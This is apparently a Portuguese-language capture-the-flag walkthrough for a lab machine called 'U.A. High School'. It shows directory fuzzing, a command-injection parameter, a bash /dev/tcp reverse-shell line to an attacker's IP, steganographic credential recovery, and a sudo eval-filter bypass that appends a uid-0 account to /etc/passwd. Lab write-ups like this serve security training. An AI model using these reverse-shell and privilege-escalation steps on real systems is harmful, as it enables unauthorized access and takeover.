

# _**U.A. High School CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```


Parece que temos uma página web, vamos visitar  
Vamos também realizar um scan com <mark>Gobuster</mark> para enumerar diretórios  
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```


Temos um diretório. Investigando, uma página em branco  
Podemos continuar executando <mark>Gobuster</mark> para encontrar mais subdiretórios  
Encontramos o diretório _/images_, mas com acesso negado  
Após mais alguns scans, temos _/index.php_, porém nada contreto. Voltamos a página inicial  
Algo chama a atenção, o formulário de contato  
Tentando alguns comandos, nenhum retorno temos  
Investigando pelas ferramentas de desenvolvedor, temos o diretório _/assets/styles.css_  
Procurando por pistas neste diretório, encontramos _/images/yuei.jpg_  
Realizamos download da imagem e verificamos com <mark>Steghide | Exiftool | Strings </mark>, mas nada foi encontrado  
De volta a estaca 0. Aqui, podemos tentar realizar enumeração de diretórios (novamente) em _/index.php_, já que temos retorno 200  
Desta vez, vamos utilizar <mark>ffuf</mark>  
> ```bash
> ffuf -u 'http://[ip_address]/assets/index.php?FUZZ=id' -mc all -ic -t 100 -w /usr/share/seclists/Discovery/Web-Content/common.txt -fs 0
> ```


Temos alguns retornos interessantes, como ```cmd```  
Entrando no link e digitando ```../index.php?cmd=id```, temos o seguinte retorno  



Convertendo de base64, temos retorno!  
Vamos tentar explorar isso tentando obter um _reverse shell_  
Primeiro, tentamos com bash: ```bash -i >& /dev/tcp/[ip_address]/[port] 0>&1```, mas sem nenhum retorno  
Então, conferimos para ver se existia alguma versão do **python**, e com retorno  
Utilizamos um _reverse shell_ em python com ```netcat``` ligado e temos acesso!  


## _**Escalando privilégios**_
Primeiro, vamos investigar o diretório _/images_, do qual não tinhamos acesso  
Temos a imagem ```oneforall.jpg```  
Navegando para _/www_, temos um diretório escondido _/Hidden_Content_, encontramos um arquivo _.txt_ que contém uma senha  
A senha parece estar conectada a imagem que encontramos em _/images_ devido a relação dos nomes  
Vamos transferir a imagem para nosso computador e investigar com <mark>Steghide</mark>  


Este erro indica que algo na imagem foi alterado para esconder algum arquivo  
Vamos investigar com <mark>Hexeditor</mark>  
O conteúdo é de um _.png_  
Vamos alterar para ser _.jpg_ editando  


Agora, vamos tentar extrair novamente  


Temos um arquivo  
Usamos estas credenciais para realizar login via **SSH**  
E já vamos procurar os comandos que podemos executar via ```sudo -l```  


Verificando as permissões e o arquivo, temos


A linha ```eval "echo $feedback"``` executa o código de ```$feedback``` como código de shell, desde que ele passe no filtro  
Proíbições: ``` ` ) $( | & ; ? ! \```
Apesar disto, nem > nem / são um dos caracteres restritos  
Podemos usar isso para escrever em qualquer arquivo que quisermos como _root_  
É possível fazer uma adição ao arquivo _/etc/passwd_ e adicionar manualmente um usuário com uid e gid definidos como 0  
Primeiro, vamos gerar uma senah hash em nossa máquina
> ```bash
> mkpasswd -m md5crypt -s
> ```
Agora, vamos alterar para o formato de _/etc/passwd_  
> exploit:$1$5HD5r9kv$3Id6xhlbwN80JnZ0cmIEg.:0:0:exploit:/root:/bin/bash

E então, executar ```sudo ./feedback``` e inserir ```'exploit:$1$5HD5r9kv$3Id6xhlbwN80JnZ0cmIEg.:0:0:exploit:/root:/bin/bash' >> /etc/passwd```
Basta o comando ```su [username]``` para termos acesso _root_  


Agora, só ir atrás das flags!  
